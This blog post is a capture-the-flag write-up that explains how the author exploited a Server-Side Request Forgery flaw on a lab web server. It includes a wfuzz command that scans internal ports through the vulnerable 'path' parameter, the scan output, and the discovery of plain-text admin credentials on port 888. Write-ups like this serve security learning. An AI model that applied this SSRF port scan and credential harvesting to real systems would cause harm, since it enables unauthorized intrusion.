 # Exploiting an SSRF Vulnerability. Recently, I had the opportunity to… | by Charlie T. | Jan, 2023 | System Weakness
![](_assets/1!IoE53Y7K3cixZdhmikH7hA.png.jpg)

Recently, I had the opportunity to engage with a CTF machine that involved compromising a web server hosting a web application that had a Server-Side Request Forgery (SSRF) vulnerability. In this blog post, I will explain how I was able to exploit this vulnerability and gain access and establish a foothold.

First, let’s define what SSRF is. SSRF is a type of vulnerability that allows an attacker to send a maliciously crafted request from the vulnerable server to a different server on the network. This can be used to access internal resources that are not normally accessible from the internet, such as a local file system or a database.

In this machine, the web application had a functionality that allowed users to submit URLs to be checked for their availability. However, the application did not properly validate the URLs, which allowed me to submit a URL that would trigger an SSRF vulnerability.

Here is a step-by-step guide on how I was able to exploit this vulnerability:

*   Identify the vulnerability: I discovered the SSRF vulnerability by manually testing a `path` parameter in the URL and submitting various URLs to it as arguments.
*   To be sure that it was SSRF and not just RFI (Remote File Inclusion), we passed [http://localhost](http://localhost/):60000/, which we know is open on this host. We were successful and confirmed SSRF. Here is a proof of concept with an external resource:

![](_assets/1!pCp6_e1d5gDTyQ9SEWXtog.png)

*   Discovering local ports by fuzzing: After confirming that we have an SSRF vulnerability, we were able to scan for ports that are open locally which would lead to further enumeration and possible sensitive data exposure. We used a tool called wfuzz:

```
$ wfuzz -c -w /path/ports.txt -u 'http://$IP/url.php?path=http://localhost:FUZZ'

=====================================================================  
ID           Response   Lines    Word       Chars       Payload  
=====================================================================

000000022:   200        4 L      4 W        62 Ch       "22"  
000000090:   200        11 L     18 W       156 Ch      "90"  
000000110:   200        17 L     24 W       187 Ch      "110"  
000000200:   200        3 L      2 W        22 Ch       "200"  
000000320:   200        26 L     109 W      1232 Ch     "320"  
000000888:   200        78 L     265 W      3955 Ch     "888"  
000003306:   200        2 L      6 W        123 Ch      "3306"  
000008080:   200        2 L      47 W       994 Ch      "8080"


```

*   Capture the response: After going through each port and using Burp Suite to capture the responses, we discovered that port 888 had plain-text credentials for an `Admin` user.

![](_assets/1!5UmHp9rSF6rdD3fuZDayKA.png)

*   Leverage the vulnerability: Using the information I captured, I was able to leverage the SSRF vulnerability to access other internal resources and ultimately gain access to the machine.

I hope this guide provides a clear understanding of how SSRF vulnerabilities can be exploited, and how to identify, enumerate further and leverage the vulnerability. Keep in mind that this is a simplified version and in a real scenario, the process would be more complex and have more steps.

SSRF vulnerabilities are very dangerous and should be addressed as soon as they are discovered. Developers should validate all user input to ensure that it is safe and implement security measures such as a Web Application Firewall (WAF) to protect against SSRF attacks.